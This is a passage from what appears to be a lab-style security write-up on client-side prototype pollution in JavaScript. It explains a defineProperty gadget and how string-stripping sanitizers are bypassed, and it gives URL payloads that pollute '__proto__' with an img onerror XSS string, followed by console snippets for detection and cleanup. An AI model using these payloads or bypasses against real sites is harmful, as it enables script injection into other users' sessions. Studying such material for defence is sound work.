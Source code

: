  ```js
  const desc = { configurable:false, writable:false }; // no own 'value'
  Object.defineProperty(obj, 'gadget', desc);
  // obj.gadget will be set to desc.value — which could resolve via prototype chain
  ```
* **PoC payload (lab):**

  ```
  ?__proto__[value]=<img/src/onerror=alert(1)>
  ```

  If subsequent code defines properties using such descriptors, `obj.gadget` may be assigned the attacker-controlled `value`.

## 3) Why naive defenses fail

* **String-strip sanitizers** (e.g. `key = key.replaceAll('constructor','')`) can be bypassed by fragmenting or obfuscating (`__pro__proto__to__`, `constconstructorructor...`) so that post-parse keys reconstruct forbidden tokens.
* **Setting a property on an instance** (e.g. `const opts = {}; opts.headers = opts.headers || {};`) doesn’t stop other code that reads `options.headers` via inheritance — especially if the code expects keys to possibly be absent.
* **defineProperty without explicit value** is ineffective — failing to set `descriptor.value` leaves an attacker a channel via `Object.prototype.value`.

## 4) Reproduction steps (lab-style)

1. Open target page in browser.
2. Append PoC to URL:

   ```
   https://<target>/page?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
   ```
3. Reload page. If vulnerable, `alert(1)` will fire (or HTML will be reflected in the DOM).
4. For `defineProperty` gadget:

   ```
   https://<target>/page?__proto__[value]=<img/src/onerror=alert(1)>
   ```

## 5) Detection snippets (run in console)

* Check for suspicious inherited properties:

```js
['headers','value','__proto__','constructor','prototype'].forEach(k=>{
  if (Object.prototype.hasOwnProperty(k)) console.warn('polluted', k, Object.prototype[k]);
});
```

* Quick cleanup (lab/dev only):

```js
delete Object.prototype.headers;
delete Object.prototype.value;
```
